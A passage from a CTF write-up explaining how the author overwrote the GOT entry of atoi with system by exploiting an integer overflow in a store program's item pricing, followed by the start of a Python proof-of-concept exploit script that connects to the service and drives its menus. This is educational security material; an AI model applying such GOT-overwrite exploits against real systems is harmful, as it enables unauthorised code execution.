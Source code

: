 Since I needed to modify `atoi` (0xf74e2880) to `system` (0xf74f0c30), this `sub ecx,eax / js` block above would *never* let me modify the pointer in the global offset table to `system`. Looking back, the solution is easy, but I could not figure it out late at night. 

Take one step back
------------------

After the CTF had ended, it dawned on me: I did not have to modify the got pointer of `atoi` completely, I could modify *part* of it! After all, if I move one byte back, the value I would be modifying would be `0x4f0c30xx`; this is still a positive number! Of course, it is possible that `atoi` is located at an address such as `0xf7dff880`; in this case, it still would not work.

I updated the poc once more, to make the money object point to `atoi@got-1`. I needed to add 0x50dc3000-0x4ff88000 = 14921728 to atoi so that it points to system (at least, locally, on my box). This is done by buying item 2. It's price is set to `0x7fffffff`. Multiplying that by 14921728 gives an integer overflow to 0xff1c5000. The latter value will be subtracted from the value at atoi-1, conveniently updating the right portion of atoi!

```python
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('localhost', 6666))
    #s.connect(('146.148.60.107', 6666))
    
    # pause to allow gdb to attach
    raw_input()
    
    # register store
    readtil('choice?')
    sendln('a')     
    readtil('store?')
    sendln("S"*63)  # store name; maximum allowed, need it to overflow a buffer later!
    
    # the program *needs* to have an item to sell before it can generate a store menu
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*0x4f)
    
    # generate store menu. this will be 0xb20 bytes large, on the heap. 
```